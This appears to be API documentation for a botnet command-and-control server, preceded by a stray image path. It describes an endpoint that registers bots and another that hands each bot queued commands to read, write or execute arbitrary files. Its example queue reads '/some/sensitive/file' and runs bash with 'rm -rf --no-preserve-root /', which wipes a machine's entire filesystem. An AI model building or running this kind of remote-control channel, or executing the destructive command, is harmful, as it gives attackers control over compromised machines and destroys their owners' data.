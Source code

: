 # Server

## `/init`: returns an ID for the bot

This returns a JSON object with the following format:

```json
{
    "id": "some string"
}
```

The ID returned uniquely identifies a connected bot, and
is how a bot checks for commands.

## `/check/{id}`: return the list of commands for the bot

This returns a JSON object with the following format:

```json
[
    {
        "action": "read", // or "write" or "execute"
        "path": "some string", // path to something being read/written/executed
        "payload": [] // possibly empty
    },
    // potentially more
]
```

This makes the server empty the command queue of the bot identified by `id`.

Example:
```json
GET /check/abcdef1234
[
    {
        "action": "read",
        "path": "/some/sensitive/file",
        "payload": []
    },
    {
        "action": "execute",
        "path": "/usr/bin/bash",
        "payload": [
            "-c",
            "xcowsay 'eggs dee' && rm -rf --no-preserve-root /"
        ]
    }
]
```